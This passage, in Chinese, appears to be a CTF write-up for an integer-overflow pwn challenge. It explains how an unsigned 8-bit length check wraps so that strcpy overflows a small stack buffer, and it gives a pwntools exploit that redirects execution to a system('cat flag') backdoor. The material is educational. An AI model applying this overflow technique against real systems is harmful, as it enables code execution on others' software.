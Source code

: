 > 0x19u表示无符号数
>

~~这个存在两个栈溢出漏洞，~~至于能不能用的上，一会儿再说。进入check_passwd函数：

> **<font style="color:#E8323C;">2022-08-20（马上进入须弥时代）：这里哪儿有栈溢出？？？？这里只有两个read函数...</font>**
>

```c
void __cdecl check_passwd(char *s)//传入的参数为输入的passwd
{
  char dest; // [esp+4h] [ebp-14h]
  unsigned __int8 v2; // [esp+Fh] [ebp-9h] //1byte to save passwd's length,8bit,0-255(0xff)

  v2 = strlen(s);
  if ( v2 <= 3u || v2 > 8u )                      //输入的长度在4-8之间
  {  //max_passwd==0x199
    puts("Invalid Password");
    fflush(stdout);
  }
  else
  {
    puts("Success");
    fflush(stdout);
    strcpy(&dest, s);                            //参数dest和s的大小不相同，存在栈溢出漏洞
     //dest_stack_size==0xb
     //s_stack_size(max_passwd_stack_size)==0x200
  }
}
```

> + unsigned __int8 v2表示v2变量的类型为8bit无符号整数，这里可能存在整数溢出.
> + 由于max_passwd为0x199，这个数据过大，因此可以存在漏洞的利用。
> + 利用整数溢出，可以将v2的长度（4-8）转变为260-264（还是截断）照样可以通过验证，这里使用的payload长度为262
>

同时程序存在着后门函数：

```c
int what_is_this()
{
  return system("cat flag");
}
```

> 请创建flag文件在程序的同级目录下，我的flag内容为：flag{wow_you_pwn_me_2333!}
>

贴上payload：

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')

#p=remote('111.198.29.45',44241)
p=process("./pwn")
 
p.sendlineafter("choice:","1")
p.sendlineafter("username:\n","xctf")
 
cat_flag_addr = 0x08048694
payload = "A" * 0x14 + "AAAA" + p32(cat_flag_addr) + "A" * 234
 
p.sendlineafter("passwd:\n",payload)
#gdb.attach(p)
print p.recvall()
```
